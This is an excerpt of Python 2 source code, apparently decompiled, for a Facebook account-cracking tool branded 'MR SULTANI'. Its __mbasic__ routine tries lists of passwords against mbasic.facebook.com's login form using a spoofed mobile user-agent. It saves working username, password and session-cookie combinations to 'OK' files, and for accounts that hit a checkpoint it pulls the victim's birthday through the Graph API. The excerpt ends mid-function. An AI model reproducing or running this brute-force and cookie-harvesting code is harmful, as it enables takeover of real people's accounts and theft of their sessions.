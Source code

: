                     sultani = open('.login.txt').read()
                    cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s' % (user, sultani)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r%s[ CP ] %s : %s | %s %s %s%s' % (K, user, pw, day, month, year, N)
                    wrt = ' [\xc3\x97] %s|%s|%s %s %s' % (user, pw, day, month, year)
                    cp.append(wrt)
                    open('saved/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day = ''
                    year = ''
                except:
                    pass

                print '\r%s[ CP ] %s : %s %s' % (K, user, pw, N)
                wrt = ' [\xc3\x97] %s|%s' % (user, pw)
                cp.append(wrt)
                open('saved/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1

    def __mbasic__(self, user, __yan__):
        global loop
        (
         sys.stdout.write('\r[%s\x1b[1;92mMR\xe2\x99\xa1SULTANI%s] [crack] %s/%s -> \x1b[1;92mOK\x1b[1;97m-:\x1b[1;92m%s - \x1b[1;93mCP\x1b[1;97m-:\x1b[1;93m%s \x1b[1;97m' % (O, N, loop, len(self.id), len(ok), len(cp))),)
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try:
                os.mkdir('saved')
            except:
                pass

            try:
                _sultani = open('mking.txt', 'r').read()
            except (KeyError, IOError):
                _sultani = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

            ses = requests.Session()
            ses.headers.update({'Host': 'mbasic.facebook.com', 'cache-control': 'max-age=0', 'upgrade-insecure-requests': '1', 'user-agent': _sultani, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8', 'accept-encoding': 'gzip, deflate', 'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
            p = ses.get('https://mbasic.facebook.com')
            b = ses.post('https://mbasic.facebook.com/login.php', data={'email': user, 'pass': pw, 'login': 'submit'})
            if 'c_user' in ses.cookies.get_dict().keys():
                kuki = (';').join([ '%s=%s' % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r%s[MKING-OK] %s | %s | %s %s' % (H, user, pw, kuki, N)
                wrt = ' [\xe2\x9c\x93] %s|%s|%s' % (user, pw, kuki)
                ok.append(wrt)
                open('saved/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif 'checkpoint' in ses.cookies.get_dict().keys():
                try:
                    sultani = open('.login.txt').read()